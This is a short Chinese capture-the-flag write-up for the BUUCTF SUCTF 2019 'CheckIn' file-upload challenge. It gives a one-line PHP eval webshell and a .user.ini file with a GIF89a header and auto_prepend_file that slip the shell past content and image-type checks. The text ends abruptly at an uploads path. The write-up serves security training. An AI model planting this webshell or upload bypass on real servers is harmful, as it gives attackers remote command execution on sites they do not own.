 ## BUUCTF - [SUCTF 2019]CheckIn

![image-20240828231124897](C:/Users/lenovo/AppData/Roaming/Typora/typora-user-images/image-20240828231124897.png)

1. 上传`php`文件提示不行
2. 上传`png`文件提示 *<? in contents!*，于是修改木马

```html
<script language="php">eval($_GET['cmd']);</script>
```

3. 修改后缀提交之后发现 *exif_imagetype:not image!*



创建`.user.ini`文件

```ini
GIF89a
auto_prepend_file=muma.gif     
```

uploads/065831472858248584ff4993846d5065